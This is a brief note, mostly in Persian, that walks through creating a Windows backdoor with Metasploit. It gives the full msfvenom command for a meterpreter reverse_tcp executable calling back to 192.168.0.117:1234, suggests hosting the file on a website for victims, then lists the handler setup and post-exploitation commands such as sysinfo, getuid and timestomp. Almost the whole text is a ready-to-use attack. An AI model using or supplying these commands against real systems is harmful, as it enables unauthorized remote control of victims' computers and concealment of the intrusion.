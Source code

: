 $\color{#b91646}{\textsf{MSFvenom backdoor}}$
=============================================

برنامه ی metasploit یه مکانیزمی داره برای درست کردن backdoor توی ویندوز

برنامه ی metasploit یک مجموعه ابزار بزرگیه که به ما اجازه میده exploit هایی که از قبل نوشته شده رو اجرا کنیم.

اینجا از ابزار **msfvenom** استفاده می کنیم.


To create payloads “msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.117 LPORT=1234 --format=exe > attack.exe” and then serve it on a website :D
> msfconsole
> db_staus
> use exploit/multi/handler
> set payload windows/meterpreter/reverse_tcp
> set LHOST 192.168.0.117
> set LPORT 1234
> exploit -j -z
RUN
> sessions -i
> sessions -i 1
> cd, ls, pwd, sysinfo, ipconfig, getuid, cat, timestomp, 


